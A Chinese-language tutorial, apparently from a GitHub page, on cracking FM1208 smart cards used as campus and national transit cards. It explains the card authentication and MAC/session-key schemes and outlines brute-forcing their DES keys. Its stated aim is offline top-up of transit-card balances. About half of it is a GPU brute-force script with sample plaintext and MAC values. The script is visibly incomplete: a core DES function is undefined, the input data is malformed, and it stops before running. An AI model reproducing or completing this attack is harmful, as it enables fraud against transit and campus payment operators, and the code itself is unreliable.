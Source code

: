 ﻿## CPU卡原理及破解

 **1. 介绍CPU卡类型**
 主要介绍在中国广泛使用的CPU卡
 fm1208卡主要用于学校医院和市政一卡通
 且该卡有两种模式，纯cpu模式及cpu+m1模式
 fm1280卡主要用于银行卡类，暂时不破解
 银行卡应该使用双芯片，具体了解不多目前
 目前针对fm1208卡
 **2.阐述认证逻辑**
 外部认证：卡片对读卡机认证，认证后可知读卡机合法
 内部认证：读卡机对卡片认证，认证后可知卡片合法
 口令密钥：该密钥主要读取，一些软件可以直接读的具体原理
 笔者没有找到一些资料，先不说啦。
 无漏洞M1模拟部分：有些卡会有模拟m1的部分，今年8月
 quarkslab一个专家破解了该部分，自己搜索一下吧。
 MAC认证：专门针对市政交通卡设计的强算法（全国交通联合）
 **3.普通校园卡破解方法**
口令pin和m1部分可以一键破解
需要破解的是内部和外部认证

下面为大家介绍一下认证逻辑：（pcd表示卡片，picc表示读卡机）

picc向pcd取随机数
pcd将随机数使用单des，ecb加密后结果前4字节发送
picc由于拥有相同des密钥，解开后验证及证明ic卡
存有与picc相同的des密钥，验证了pcd的合法性
这是外部认证，内部认证即相反的过程！

规则与破解方法：假设4字节随机数为01020304
实际上不可能是这样，方便解说
再其后加80000000，凑够8字节数据用于des加密
密钥也是8字节数据由于奇偶校验位实际密钥长度为2的56次方
加密后得到密文前半部分，具体破解方法是
使用专业fpga穷举des密钥核对，核对成功的数据再
使用其他明文密文对验证，最后得出唯一解即可。

以上就是破解cpu卡认证的方法。

**4.全国交通联合卡破解**
这里我们主要是破解卡片圈存的问题
下面介绍其逻辑：
picc和卡片都有一个load key但不直接使用
MAC是使用session key再通过pboc-mac加密得到
session key 是通过明文数据和随机数等通过load key
采用3des（2keys）加密得到的结果，其主要作用是生成MAC
MAC分为MAC1和MAC2，它们的作用是让picc和pcd各自验证彼此
然后完成圈存后卡片返回一个TAC到服务器，这里就先不研究了
先看卡片上数据如何更改，服务器方面有它的破解方法不一样
以上就是其原理的一般解析，下面我们理清数据实际破解一下
**破解前的分析和数据整理**

（1）第一小节

session key的明文数据00000168（旧余额）+00000064（交易金额）+02（交易类型电子钱包圈存）+800100010000（终端机编号）+80（凑够16字节加密使用）

session key的明文：80

session key的密文MAC1：2A39E05E（实际应该为16字节，由于只需要验证故只取前4字节）

使用的加密算法：ANSI x99

（2）第二小节

假设已经破解得到了session key，将其表示为SK

load key 的密文即经过3des加密得到的SK

load key 的加密算法3des加密

load key 的明文部分为 inputdata

明文为：9df3847c（卡片产生的随机数）+0004（联机交易序号）+8000（凑够8字节）

（3）第三小节

简单解释一下3des加密和ansi x99加密的原理

3des：密钥前半部分为k1后半部分为k2加密过程为先用k1加密再用k2解密最后再k1加密

解密的过程即将加密的过程反转。

ansix99：将数据打包分成几个八字节块然后与初始值进行异或后再des加密最后得出结果

具体破解方法都是类似的3des加密2key模式基本等同于
单des加密的密钥长度2的56次方
mac的解法由于明文和sessionkey差距不大，
从数学上来说可能会有更快的破解方法
即使现在的条件也很容易破解

破解得到原始des密钥即可对公交卡实现离线圈存功能
具体代码实现如下：

    from numba import cuda
import numpy as np
import time
import binascii
import sys

# CUDA 核心函数：PBOC-MAC 加密和密钥检查
@cuda.jit
def pboc_mac_kernel_with_progress(iv, plaintext, target, keys_per_thread, key_offset, results, found_flag, progress_counter):
    idx = cuda.grid(1)
    start_key = idx * keys_per_thread + key_offset

    for key_index in range(keys_per_thread):
        if found_flag[0]:  # 如果找到密钥，提前退出
            return

        current_key = start_key + key_index
        key = current_key.to_bytes(8, byteorder='big')  # 转换为 8 字节密钥

        # Step 1: 初始向量异或明文前 8 字节
        xor_result = cuda.local.array(8, dtype=np.uint8)
        for i in range(8):
            xor_result[i] = plaintext[i] ^ iv[i]

        # Step 2: DES 加密第一阶段
        des1 = des_encrypt_device(key, xor_result)

        # Step 3: 异或明文后 8 字节
        xor_result2 = cuda.local.array(8, dtype=np.uint8)
        for i in range(8):
            xor_result2[i] = des1[i] ^ plaintext[8 + i]

        # Step 4: DES 加密第二阶段
        des2 = des_encrypt_device(key, xor_result2)

        # 检查密文前 4 字节是否匹配目标
        match = True
        for i in range(4):
            if des2[i] != target[i]:
                match = False
                break

        if match:
            # 记录结果
            for i in range(8):
                results[idx * 8 + i] = key[i]
            found_flag[0] = 1

        # 更新进度计数器
        if idx == 0 and key_index % 256 == 0:
            cuda.atomic.add(progress_counter, 0, 1)

# 主程序：利用 GPU 并行破解密钥
def gpu_brute_force_with_progress(iv, plaintext, target_prefix):
    num_keys = 2**24  # 测试较小的密钥空间（完整 2^64 空间需分片处理）
    keys_per_thread = 256  # 每个线程尝试的密钥数量
    threads_per_block = 256
    blocks_per_grid = (num_keys + keys_per_thread * threads_per_block - 1) // (keys_per_thread * threads_per_block)

    # 初始化数据
    iv = np.frombuffer(iv, dtype=np.uint8)
    plaintext = np.frombuffer(plaintext, dtype=np.uint8)
    target_prefix = np.frombuffer(target_prefix, dtype=np.uint8)
    results = np.zeros(blocks_per_grid * threads_per_block * 8, dtype=np.uint8)
    found_flag = np.array([0], dtype=np.uint8)
    progress_counter = np.array([0], dtype=np.uint32)

    # 分配 GPU 内存
    d_iv = cuda.to_device(iv)
    d_plaintext = cuda.to_device(plaintext)
    d_target = cuda.to_device(target_prefix)
    d_results = cuda.to_device(results)
    d_found_flag = cuda.to_device(found_flag)
    d_progress_counter = cuda.to_device(progress_counter)

    # 启动 CUDA 核心函数
    start_time = time.time()
    pboc_mac_kernel_with_progress[blocks_per_grid, threads_per_block](
        d_iv, d_plaintext, d_target, keys_per_thread, 0, d_results, d_found_flag, d_progress_counter
    )
    cuda.synchronize()
    end_time = time.time()

    # 获取结果
    results = d_results.copy_to_host()
    found_flag = d_found_flag.copy_to_host()
    progress_counter = d_progress_counter.copy_to_host()

    # 汇总匹配密钥
    matched_keys = []
    for i in range(blocks_per_grid * threads_per_block):
        if results[i * 8: (i + 1) * 8].any():
            matched_keys.append(results[i * 8: (i + 1) * 8])

    # 打印结果
    print("\n--- 计算完成 ---")
    print(f"总耗时: {end_time - start_time:.2f} 秒")
    print(f"尝试密钥数: {num_keys}")
    print(f"每秒尝试密钥: {num_keys / (end_time - start_time):.2f}")
    print("匹配密钥列表:")
    for key in matched_keys:
        print(f"- {binascii.hexlify(key)}")
    print("计算进度: 100%")

# 示例数据
iv = b'\x00' * 8  # 初始向量全为0
plaintext = b'000001680000006402800100010000'  # 明文
partial_ciphertext = b'\x2A\x39\xE0\x5E'  # 密文前4字节




